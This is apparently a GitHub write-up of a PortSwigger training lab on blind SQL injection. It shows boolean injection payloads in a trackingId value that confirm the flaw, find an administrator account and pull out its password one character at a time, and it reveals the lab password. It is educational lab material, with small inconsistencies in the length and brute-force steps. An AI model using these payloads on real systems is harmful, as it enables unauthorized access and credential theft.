 # SQL Injection - Blind SQLi with conditional responses

## 📌 Lab Details
- **Title**: Blind SQLi with conditional responses.
- **Difficulty**: Practitioner
- **Category**: SQL Injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/5aeeac77d52d55cdff3f9a5d86d050c9a77ebfef7657cccb459bee29ad5c3fce?referrer=%2fweb-security%2fsql-injection%2fblind%2flab-conditional-responses

## 🔍 Summary
This lab demonstrated how Blind SQLi works and to brute force a password of the administrator.

## 🛠 Steps to Solve
1. Confirm that the parameter is vulnerable to blind SQLi -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o'`.
   If this tracking id exist -> query returns value -> Welcome back message.
   If this tracking id doesn't exist -> query returns nothing.
2. `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and 1=1--'`
   TRUE -> Welcome back
   `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and 1=0--'`
   FALSE -> no message
   This confirms that application is vulnerable to blind SQLi.
3. Confirm that a `users` table exists -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and (select 'x' from users LIMIT 1)='x'--'`
   TRUE -> Welcome back.
4. Confirm that username `administrator` exist in the database -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and (select username from users where username='administrator')='administrator'--'`
   TRUE -> Welcome back -> administrator user exists.
5. Determining the length of the password by a brute force attack -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--'`
   -> password is exactly `20` characters.
6. Determining the first character of the password -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and (select substring(password,1,1) from users where username='administrator')='a'--'`
   -> `5` is the first character.
7. Determining the complete password using a `cluster bomb` attack -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and (select substring(password,1,1) from users where username='administrator')='a'--'`
   -> password is `yffiwhnsfhtirdglb47q`
   
## 📖 Key Takeaways
- Understanding how `Blind SQLi` works.
- Understanding how to implement `brute force` attack with the help of `intruder`.
  
## 🖼️ Screenshot (if needed)
![image](https://github.com/user-attachments/assets/3cfb73ba-ca65-4cb3-bb3e-b1df114a7953)
![image](https://github.com/user-attachments/assets/8d172ad5-e80e-4a86-ab79-12a2ae4065a3)
![image](https://github.com/user-attachments/assets/6e66b633-1718-463b-8c84-b4d02cd890f0)
![image](https://github.com/user-attachments/assets/a1d0b0ad-2bab-4a11-ad7a-137662ab372e)
![image](https://github.com/user-attachments/assets/71fd9d4d-3554-4dfc-a6d0-c09f06bdbc52)
![image](https://github.com/user-attachments/assets/06d0ea9b-3bf1-4c48-bb58-be8a300e9c5f)
![image](https://github.com/user-attachments/assets/221e9a93-43cc-414e-9af6-0be883c28e6b)
![image](https://github.com/user-attachments/assets/8bd5637d-7385-4ccb-bdc4-53709d7f6d87)
![image](https://github.com/user-attachments/assets/0d0c8805-768a-4ae4-81d6-59f9833efac2)

